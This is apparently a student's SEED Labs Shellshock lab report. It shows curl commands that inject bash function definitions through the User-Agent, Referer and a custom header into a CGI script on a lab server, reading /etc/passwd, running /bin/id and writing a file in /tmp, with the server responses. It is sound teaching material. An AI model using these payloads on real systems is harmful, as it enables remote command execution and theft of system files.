```
[02/16/21]seed@VM:~/.../02_shellshock$ curl -H temp:'() { echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi > 3_1_3.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   926    0   926    0     0   452k      0 --:--:-- --:--:-- --:--:--  452k
[02/16/21]seed@VM:~/.../02_shellshock$ diff 3_1_1.txt 3_1_3.txt
```
1. I called the operation and combined what I learned from Task 1 with it, defining a function. Then the echo Content_type is not really needed, but I have included there. Followed by a necessary echo. Then the command I would like to use /bin/cat and the file I would like to use it on /etc/passwd. Lastly, I have the server address. (P.S. I just stored the output as a text file in the end).
2. I first did this operation in -A, but when I gave it a second thought, I decided to try the other two. The -e is identical to -A, the only difference is the choice of option itself. Then I ran -H, which I had to define a key to it, named temp, but the results are the same. Notice that I ran a diff command and not display the whole thing. If you would like to view all the outputs, please take a look at [-A](3_1_1.txt), [-e](3_1_2.txt), and [-H](3_1_3.txt). Finally, the -v printed the versions and not the output I was looking for.
3. My attack was successful, I have made the program print the /etc/passwd instead of the environment variable. I was a little surprised at all three options working for curl. However, giving it a second thought, it makes perfect sense. They are all doing some different task, but in the end, all the information is stored as a environment variable.

#### Task 3.2:
This time, I am trying to ask it to print the /bin/id:
```
[02/16/21]seed@VM:~/.../02_shellshock$ curl -A '() { echo "id";}; echo Content_type: text/plain; echo; /bin/id' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() { echo "id";}; echo Content_type: text/plain; echo; /bin/id' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[02/16/21]seed@VM:~/.../02_shellshock$ curl -H temp:'() { echo "id";}; echo Content_type: text/plain; echo; /bin/id' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
1. First, I gave it the same input output command like last time but received an error. However, I quickly realize that when we print the id, we would not ask for cat, but we would if we are asking for /etc/passwd (given that you have privilege). Then I tried it without /bin/cat and worked just fine.
2. Like last time, I decided to try all three curl operations that I could think of and they all worked perfectly. Again, -v printed the version and not /bin/id
3. My attack was successful. For all three of the curl options, I made the them print out the /bin/id. The only surprise was it not using the /bin/cat, which was discussed above

#### Task 3.3:
For this task, I am trying to create a file inside /tmp folder:
```
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo "this is a test" > /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=() { :; }; echo "this is a test" > /tmp/test
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
```